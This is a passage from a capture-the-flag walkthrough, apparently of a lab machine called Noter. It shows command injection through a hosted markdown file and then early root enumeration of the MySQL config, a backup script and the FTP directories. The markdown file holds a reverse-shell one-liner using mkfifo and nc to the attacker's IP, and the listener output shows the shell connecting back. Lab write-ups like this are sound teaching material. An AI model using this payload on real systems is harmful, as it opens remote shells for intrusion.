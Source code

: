 I'll make a markdown file with the exploit using the same shell as
above:



    oxdf@hacky$ cat cmdinj.md 
    '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f)'



I'll host the file and give the URL to the site, and it returns a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.160 49996
    /bin/sh: 0: can't access tty; job control turned off
    $ 



## Shell as root

### Enumeration

#### Filesystem

There's not much of interest in the user's home dir. The web app seems
to be running out of `app`, but I've already had access to that source
code. The live source does show the new MySQL user:



    # Config MySQL
    app.config['MYSQL_HOST'] = 'localhost'
    app.config['MYSQL_USER'] = 'DB_user'
    app.config['MYSQL_PASSWORD'] = 'DB_password'
    app.config['MYSQL_DB'] = 'app'
    app.config['MYSQL_CURSORCLASS'] = 'DictCursor' 



`/opt` has a single file, `backup.sh`:



    svc@noter:/opt$ ls
    backup.sh



This seems to be what created the backups I found over FTP, but it
clearly isn't running often.

The FTP roots are in `/srv/ftp`, but there's nothing there I didn't
already have access to.



    svc@noter:/srv/ftp$ ls
    blue  ftp_admin
